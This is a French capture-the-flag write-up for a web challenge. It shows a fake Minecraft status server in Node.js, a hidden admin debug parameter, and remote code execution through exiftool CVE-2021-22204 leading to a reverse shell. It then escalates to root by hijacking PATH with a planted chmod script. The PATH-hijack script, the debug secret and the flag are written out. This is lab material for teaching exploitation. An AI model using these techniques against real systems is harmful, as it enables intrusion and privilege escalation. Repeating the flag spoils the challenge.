





# Write-Up

On part d’une page web qui, via un formulaire, ping un serveur MC pour afficher joueurs, version, description & favicon. En testant mc.hypixel.net:25565, on reçoit une erreur exigeant un MOTD contenant “Cinema” et “Cannes” :




En déployant un serveur Node.js avec le bon MOTD on a une nouvelle erreur : "Un peu de serieux, le serveur ne peut pas avoir moins de 1 000 000 de joueurs !", on ajuste donc le nombre de joueurs : 

```python
const mc = require('minecraft-protocol');
const fs = require('fs');

const MOTD = 'Cinema de Cannes';

const raw = fs.readFileSync('favicon.jpg');
const faviconData = 'data:image/jpeg;base64,' + raw.toString('base64');

const server = mc.createServer({
  host: '0.0.0.0',
  port: 25565,
  version: false, // accepte toutes les versions
  'online-mode': false, // offline mode
  maxPlayers: 1000000,
  favicon: faviconData,
  beforePing: (response, client) => {
    // personnalise la réponse
    console.log(`[>] beforePing response for ${client.socket.remoteAddress}:${client.socket.remotePort}:`);
    console.dir(response, { depth: null });
    response.version.name = '1.21';
    response.version.protocol = response.version.protocol;
    response.players.max = 1000000;
    response.players.online = 1000000;
    // description en objet JSON
    response.description = { text: MOTD };
    return response; // renvoie l’objet modifié
  }
});

server.on('listening', () => console.log('Fake server ON'));

server.on('connection', client => {
  const addr = `${client.socket.remoteAddress}:${client.socket.remotePort}`;
  console.log(`[+] New connection from ${addr}`);
  client.on('handshake', packet => {
    console.log(`[?] Handshake from ${addr}:`);
    console.dir(packet, { depth: null });
  });
  client.on('ping', packet => console.log(`[?] Ping from ${addr}:`, packet));
  client.on('error', err => console.error(`[!] Error from ${addr}:`, err));
  client.on('packet', (packetName, packet) => {
    console.log(`[→] Packet '${packetName}' from ${addr}:`);
    console.dir(packet, { depth: null });
  });('packet', (packetName, packet) => {
    console.log(`[→] Packet '${packetName}' from ${addr}:`);
    console.dir(packet, { depth: null });
  });
  client.on('raw', buffer => {
    console.log(`[→] Raw data (${buffer.length} bytes) from ${addr}:`, buffer.toString('hex'));
  });
});
```

Concernant la vulnérabilité, les commentaires dans le code source nous ont permis de la retrouver : 

```html
<!-- <input type="hidden" name="debug" value="debug_for_admin_20983rujf2j1i2" > -->
```

En ajoutant le paramètre debug à notre requête, un nouveau commentaire apparaît dans le code source : 

```html
<!-- Exiftool Version: 12.23, Taille du fichier: 455 --> Cette taille de fichier correspond au favicon du serveur d'exemple
```

Cette version d'exiftool est vulnérable à une Arbitrary Code Execution (CVE-2021-22204), un script d'exploitation(https://www.exploit-db.com/exploits/50911), nous permet de générer une image piégée pour obtenir un reverse shell : 



Une fois le serveur MC relancé on peut de nouveau le requêter `http://57.128.112.118:11991/?server=4.210.160.24&port=25565&debug=debug_for_admin_20983rujf2j1i2` et le serveur web se connecte bien à notre listener :




On peut lister les fichiers :

```zsh
$ ls -la
… fix_permissions    # binaire SUID root  
… flag.txt           # permissions 000
```

Lorsqu'on exécute le binaire fix_permissions:

```zsh
flaskuser@app:/app$ ./fix_permissions flag.txt
[*] Fixing permissions for files in /app/images
[*] Running as UID: 0
[*] Command: chmod 400 *
```

- Le binaire utilise probablement un execvp("chmod", args) ou un system("chmod 400 *") sans préciser de chemin absolu /bin/chmod.

- Il hérite donc de la variable d’environnement PATH de l’utilisateur appelant.

- Exploit : si on place devant /bin un exécutable chmod malicieux, execvp l’appellera en tant que root :

On créer un “chmod” factice dans /app/images pour récupèrer le flag :

```zsh
cat > chmod <<'EOF'
#!/bin/bash
cp /app/flag.txt /tmp/flag_copy.txt
chmod 644 /tmp/flag_copy.txt
exit 0
EOF
```

On rend ce script éxécutable :

```zsh
/bin/chmod +x chmod
```

On Préfixe `PATH` pour que notre script soit trouvé en priorité :

```zsh
export PATH=$(pwd):$PATH
```

On lance le binaire :

```zsh
../fix_permissions
```

On récupère le flag :



**Flag**

`SHLK{O!d_Sch0Ol_Guy_Ho1ds_Olds_V3rsions}`